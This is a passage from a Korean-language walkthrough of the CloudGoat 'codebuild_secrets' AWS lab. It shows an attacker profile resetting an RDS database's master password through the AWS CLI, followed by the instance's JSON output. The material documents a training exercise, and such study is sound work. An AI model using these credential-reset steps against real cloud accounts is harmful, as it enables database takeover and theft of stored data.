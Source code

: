 ```python
            {
                "Key": "Stack",
                "Value": "CloudGoat"
            }
        ],
        "CustomerOwnedIpEnabled": false
    }
}
```

- 이제 마음대로 조절가능한 RDS 인스턴스가 생겼으니 해당 데이터베이스의 마스터 사용자 암호를 재설정하겠습니다. 분석하기 편하게 cloudgoat로 지정을 하도록 하겠습니다.

```python
aws rds modify-db-instance \
    --db-instance-identifier secrets-instance \
    --master-user-password cloudgoat \
    --profile calrissian
```

```python
{
    "DBInstance": {
        "DBInstanceIdentifier": "secrets-instance",
        "DBInstanceClass": "db.t2.micro",
        "Engine": "postgres",
        "DBInstanceStatus": "available",
        "MasterUsername": "cgadmin",
        "DBName": "securedb",
        "Endpoint": {
            "Address": "secrets-instance.cklw91kahwum.us-east-1.rds.amazonaws.com",
            "Port": 5432,
            "HostedZoneId": "Z2R2ITUGPM61AM"
        },
        "AllocatedStorage": 20,
        "InstanceCreateTime": "2021-08-14T18:40:41.128000+00:00",
        "PreferredBackupWindow": "05:44-06:14",
        "BackupRetentionPeriod": 0,
        "DBSecurityGroups": [],
        "VpcSecurityGroups": [
            {
                "VpcSecurityGroupId": "sg-08cf0063172ca84b3",
                "Status": "active"
            }
        ],
        "DBParameterGroups": [
            {
                "DBParameterGroupName": "default.postgres9.6",
                "ParameterApplyStatus": "in-sync"
            }
        ],
        "AvailabilityZone": "us-east-1a",
        "DBSubnetGroup": {
            "DBSubnetGroupName": "cloud-goat-rds-subnet-group-codebuild_secrets_cgidq5cx1pvldn",
            "DBSubnetGroupDescription": "CloudGoat codebuild_secrets_cgidq5cx1pvldn Subnet Group",
            "VpcId": "vpc-0449676f4c03795ea",
            "SubnetGroupStatus": "Complete",
            "Subnets": [
                {
                    "SubnetIdentifier": "subnet-0bb58f8e0a0abe565",
                    "SubnetAvailabilityZone": {
                        "Name": "us-east-1b"
                    },
                    "SubnetOutpost": {},
                    "SubnetStatus": "Active"
                },
```